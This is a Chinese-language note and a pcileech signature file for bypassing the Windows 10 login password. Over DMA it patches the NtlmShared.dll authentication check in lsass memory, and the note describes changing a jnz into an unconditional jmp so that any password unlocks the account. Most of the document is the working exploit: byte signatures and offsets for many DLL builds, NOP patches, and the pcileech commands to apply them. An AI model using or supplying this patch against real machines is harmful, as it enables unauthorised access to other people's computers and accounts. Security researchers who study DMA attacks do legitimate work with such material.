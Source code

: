 （注：自建win7跑不起来，因为win7和win8都是使用msv1_0.dll，所以可以直接对win8的脚本进行修改，运行）

# win10绕密修正版

原版unlock_win10x64，只是转换jz和jnz逻辑，当我们深入错误密钥可以进入，而正确密钥却会错误，修正版用来无论正确错误都可以成功绕密

修正过程比较容易

脚本原版已经找到入口点，只需要改0f85(jnz)为E9BBFAFFFF90（jmp xxx）即可成功进入

```
# Unlock Signatures for Local and AD Accounts for Windows 10 x64 version
#
# Method 1: (faster):
# 1.1 check pid of lsass.exe: pcileech pslist
# 1.2 patch: pcileech patch -sig wx64_unlock_win10.sig -all -pid <pid_of_lsass>
#
# Method 2:
# 2.1 patch: pcileech patch -sig wx64_unlock_win10.sig -all
#
# Syntax: see signature_info.txt for more information.
# Generated on 2023-11-26 16:58:59
#
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.16384 / 2015-07-10]
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.18366 / 2019-09-30]
5DC,488BCBFF154B1C0000,5E8,0F8518FBFFFF,5E8,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.19387 / 2022-08-04]
65C,488BCBFF15CB1B0000,668,0F8518FBFFFF,668,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.19869 / 2023-03-30]
66C,488BCBFF15BB1B0000,678,0F8518FBFFFF,678,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10586.0 / 2015-10-30]
62C,488BCBFF15B31B0000,638,0F8518FBFFFF,638,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.14393.0 / 2016-07-16]
6DC,488BCBFF15D31B0000,6E8,0F8518FBFFFF,6E8,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.14393.2791 / 2019-02-06]
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.14393.3269 / 2019-09-29]
6EC,488BCBFF15C31B0000,6F8,0F8518FBFFFF,6F8,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.14393.5291 / 2022-08-07]
76C,488BCBFF15431B0000,778,0F8518FBFFFF,778,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.14393.5850 / 2023-03-30]
77C,488BCBFF15331B0000,788,0F8518FBFFFF,788,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.15063.1631 / 2019-02-06]
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.15063.2106 / 2019-09-30]
622,488BCBFF15B51C0000,62E,0F852EFBFFFF,62E,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.15254.245 / 2018-01-30]
612,488BCBFF15C51C0000,61E,0F852EFBFFFF,61E,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.16299.1268 / 2019-07-05]
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.16299.1448 / 2019-10-02]
622,488BCBFF15C51C0000,62E,0F852EFBFFFF,62E,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.16299.192 / 2018-01-01]
612,488BCBFF15D51C0000,61E,0F852EFBFFFF,61E,909090909090
#
```